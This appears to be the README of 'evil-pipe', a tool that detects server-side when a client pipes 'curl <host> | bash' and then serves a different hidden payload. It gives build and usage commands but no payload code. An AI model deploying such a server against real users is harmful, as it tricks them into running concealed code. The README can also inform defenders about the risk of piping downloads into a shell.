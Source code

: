 # evil-pipe

[![License: MIT](https://img.shields.io/badge/License-MIT-blue.svg)](https://opensource.org/licenses/MIT)



![Demo](https://raw.githubusercontent.com/4iar/evil-pipe/assets/demo.gif)

## Build

```bash
$ mkdir build && cd build
$ cmake ..
$ make
```

## Usage

Payload scripts are read from two files:


| File | When it is sent |
|----------|-------------|
| pipe_payload.txt |  curl <host> \| bash |
| non_pipe_payload.txt |   curl <host> |

After configuring the payloads, start the server with a port

```bash
$ ./evil-pipe <port>
```


## Acknowledgements

Uses [Phil's passive delay method](https://web.archive.org/web/20170718181413/https://www.idontplaydarts.com/2016/04/detecting-curl-pipe-bash-server-side/).
